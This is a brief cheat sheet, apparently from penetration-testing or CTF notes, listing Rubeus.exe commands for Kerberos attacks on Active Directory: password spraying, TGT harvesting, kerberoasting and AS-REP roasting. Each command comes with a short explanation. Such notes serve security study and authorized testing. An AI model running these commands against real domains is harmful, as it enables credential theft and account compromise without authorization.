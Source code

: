 # Commands/scripts that would be helpful

- Rubeus.exe brute /password:Password1 /noticket
  - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

- Rubeus.exe harvest /interval:30
  - This command tells Rubeus to harvest for TGTs every 30 seconds

- Rubeus.exe kerberoast
  - This will dump the Kerberos hash of any kerberoastable users

- Rubeus.exe asreproast
  - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.
